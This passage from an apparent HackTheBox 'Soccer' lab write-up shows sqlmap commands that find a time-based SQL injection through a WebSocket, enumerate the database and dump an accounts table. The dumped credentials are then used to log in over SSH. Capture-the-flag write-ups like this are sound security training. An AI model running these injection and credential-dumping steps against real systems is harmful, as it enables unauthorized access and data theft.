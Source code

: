 And running the sqlmap 

```
sqlmap -u “http://localhost:8081/?id="
```

![soc-14](https://user-images.githubusercontent.com/87711310/217253798-4d9e4913-e140-4546-b31a-92f4c0a04733.png)

SQL map got a time base SQL injection in the WebSocket.

So, I enumerated it further.

```
sqlmap -u “http://localhost:8081/?id=" --current-db
```

![soc-15](https://user-images.githubusercontent.com/87711310/217258493-dd1402bd-c31e-457b-ac0c-9dab0f638e63.png)

I was currently in the `soccer_db` database

Further, I looked for the `tables` in the database

```
sqlmap -u “http://localhost:8081/?id=" -D soccer_db --tables
```

![soc-16](https://user-images.githubusercontent.com/87711310/217258954-677e1e69-ab1d-4356-b064-7f00401b8f08.png)

There was only table named `accounts`

So, I dumped its data

```
sqlmap -u "http://localhost:8081/?id=" -D soccer_db -T accounts --dump 
```

![soc-17](https://user-images.githubusercontent.com/87711310/217259392-6013ae0d-5ecb-47f1-afe1-bfd1f605475d.png)

Looking at the contents of the accounts table, there was username and password of a user `player`. So I decided to use these credentials to see if I could login through `ssh`

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Soccer]
└─$ ssh player@soccer.htb                                             
The authenticity of host 'soccer.htb (10.10.11.194)' can't be established.
ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'soccer.htb' (ED25519) to the list of known hosts.
player@soccer.htb's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Feb  7 13:37:34 UTC 2023

  System load:           0.0
  Usage of /:            70.4% of 3.84GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             229
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.194
  IPv6 address for eth0: dead:beef::250:56ff:feb9:a39


0 updates can be applied immediately.

```